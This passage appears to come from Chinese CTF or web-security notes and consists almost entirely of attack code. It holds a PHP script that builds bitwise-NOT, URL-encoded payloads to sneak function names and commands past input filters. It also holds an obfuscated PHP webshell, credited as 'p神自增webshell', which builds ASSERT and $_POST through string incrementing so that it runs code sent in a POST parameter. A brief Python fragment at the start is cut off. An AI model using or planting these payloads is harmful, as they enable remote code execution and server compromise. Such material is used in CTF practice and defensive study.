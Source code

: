 ```python
while True:
    param=action(input("\n[+] your function:") )+action(input("[+] your command:"))+";"
    print(param)
```



### 取反脚本

```php
<?php
/*author yu22x*/

fwrite(STDOUT,'[+]your function: ');
$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
fwrite(STDOUT,'[+]your command: ');
$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
?>
```



### p神自增webshell

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```